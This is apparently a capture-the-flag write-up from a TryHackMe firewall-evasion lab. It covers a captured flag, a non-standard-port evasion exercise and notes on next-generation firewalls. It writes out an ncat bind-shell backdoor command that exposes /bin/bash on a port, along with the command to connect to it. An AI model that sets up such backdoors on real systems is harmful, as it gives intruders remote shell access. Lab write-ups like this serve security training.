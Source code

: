![](Pasted%20image%2020250523144658.png)

We got our flag:

```
THM{1298331956} 
```



# Evasion Using Non-Standard Ports

---

`ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

On the AttackBox, we can run `ncat 10.10.19.194 PORT_NUMBER` to connect to the target machine and interact with its shell.

Considering the case that we have a firewall, it is not enough to use `ncat` to create a backdoor unless we can connect to the listening port number. Moreover, unless we run `ncat` as a privileged user, `root`, or using `sudo`, we cannot use port numbers below 1024.

![](Pasted%20image%2020250523144900.png)


```
ncat -lvnp 8081 -e /bin/bash
```

![](Pasted%20image%2020250523144807.png)

```
nc MACHINE_IP 8081
```

![](Pasted%20image%2020250523144839.png)

We got our answer:

```
thmredteam
```


# Next-Generation **Firewalls**

---

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.
